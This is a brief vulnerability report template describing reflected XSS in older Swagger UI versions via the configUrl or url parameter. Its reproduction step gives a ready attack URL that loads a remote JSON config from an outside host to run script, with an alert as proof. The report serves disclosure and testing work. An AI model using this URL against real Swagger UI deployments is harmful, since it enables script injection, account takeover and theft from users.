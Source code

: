 # XSS due to older version of Swagger UI

#### Description
Swagger UI is a web interface for interacting with a web API defined using the OpenAPI (formerly known as Swagger) specification. It allows you to visualize and interact with the API's resources without having to write any code.

Some old Swagger UI versions are vulnerable to XSS by overwriting their configuration with the `?configUrl` or `?url` parameter. By doing so, you can override the page to do a malicious act, while it still has a trustworthy URL. And no authentication is needed to exploit this vulnerability

#### Steps to reproduce
1. Go to: {{endpoint}}?configUrl=https://jumpy-floor.surge.sh/test.json
2. Observe an alert box on your screen

#### Impact
This vulnerability allows an attacker to inject and execute arbitrary script code within the context of a user's web browser. This malicious script code can be used to steal sensitive user information, perform phishing attacks, or even gain unauthorised access to the user's account.

#### Resources / Supporting Material:
- https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/
- https://app.vidocsecurity.com/public-library/787db825-d8c0-4182-a79f-6c7520745c49
